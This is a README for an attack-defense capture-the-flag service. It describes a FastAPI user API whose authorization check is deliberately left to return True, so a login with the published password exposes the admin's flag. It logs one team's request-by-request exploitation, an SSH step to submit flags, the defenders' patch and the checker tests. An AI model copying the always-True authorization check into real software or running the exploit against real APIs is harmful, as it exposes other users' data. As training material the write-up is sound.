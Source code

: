 # Service definition:
We have a Docker container that includes an API built with FastAPI, which has access to a PostgreSQL database containing information about the app's users.  

The attacker has information about the API and must use that information to obtain the flag located in the database and let them in his T-Submission machine. 

# Service implementation:


The Docker container includes a FastAPI instance that provides access to a database containing two rows of user information:

- First tuple contains information about the `admin` user, with a random password and a valid flag stored in the `flag` column.  
- The other tuple contains information about the 'user' account, with a password known to attackers: `pasahitz_sekretua`, but it does not contain a valid flag.  

The database cannot be manipulated. In FastAPI, models, schemas, and routes cannot be modified. However, the code executed by the routes can be manipulated, as long as the core logic (login + fetching user data) remains intact.

If any of the above points are not met, SLA points will be deducted. 
 
-Flags: 
    The flags are stored in the database in the `flag` column of the `admin` user's row.

# About exploting:
- The attacker must obtain the access token using the provided credentials and the corresponding API call: `http://{ip}:8008/api/v1/login`. Afterward, they will use the access token to make a request to the API that retrieves user information: `http://{ip}:8008/api/v1/user/user`. The response indicates that the flag is in the `admin` user, so the attacker will then make another request to `http://{ip}:8008/api/v1/user/admin` and obtain the flag.

- The defender needs to modify the behavior of the API call `http://{ip}:8008/api/v1/user/{username}` so that it is only valid if the `username` matches the user in the token.
  
  Attack performed by Team1 against Team 4. 
  Post call http://10.0.0.104:8008/api/v1/login with {'username': 'user', 'password': 'pasahitz_sekretua'} data.
      We obtein access token. Response: {"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzM0MzQ3OTgxfQ.zRDWzF6reiVSZ9s8hju9Mif5JP66YYa4bNx8ztv2AkQ","token_type":"bearer"}
  Get call http://10.0.0.104:8008/api/v1/user/user with authorization header
      We obtein the response: 
      {
      "email": "user@tknika.eus",
      "username": "user",
      "id": 2,
      "flag": "No Flag for this user... Maybe for admin;)"
      }
  Get call http://10.0.0.104:8008/api/v1/user/admin with authorization header
      We obtein the response: 
      {
      "email": "admin@tknika.eus",
      "username": "admin",
      "id": 1,
      "flag": "(contains the valid flags)"
      }
  'ssh -i /home/urko/Deskargak/keyak/team2-sshkey root@10.0.1.1'
  nano /root/xxx.flag
    Paste copied flags. 

  Defense performed by Team4
    'ssh root@10.0.0.104'
    docker exec -it besteerabiltzailean /bin/bash
    change the file /app/app/service/user_service.py
        def check_user_is_current_user(username: str, current_user: user_schema.User):
          return True

        to

        def check_user_is_current_user(username: str, current_user: user_schema.User):
          return username == current_user.email or username == current_user.username 
    
     

# Checker checks:
- Ports to reach dockers are open (WEB API:8008)
- APIs logic (login + fetching user data)
- Integrity of all FastAPI files except `/app/app/service/user_service.py`

Checks done: 
- TEAM 1. Stop the container: 'root@debian:~# docker stop besteerabiltzailean_web_1' It works OK, service's status becomes DOWN. 
- TEAM 2. Stop the container: 'root@debian:~# docker stop besteerabiltzailean_db_1' It works OK, service's status becomes FAULTY.
- TEAM 1. Change /app/app/router/user_route.py  file from 'besteerabiltzailean_web_1' docker. It works OK, service's status becomes FAULTY. 
- TEAM 2. Apply fix '/app/app/service/user_service.py' file from 'besteerabiltzailean_web_1' docker. It works OK, service's status doesn't change
- TEAM 1. Make a change that does not affect the logic of the app '/app/app/service/user_service.py' file from 'besteerabiltzailean_web_1' docker. It works OK, service's status doesn't change
 
# License notes
Parts from:
https://github.com/Tknika/ctf-gameserver-services


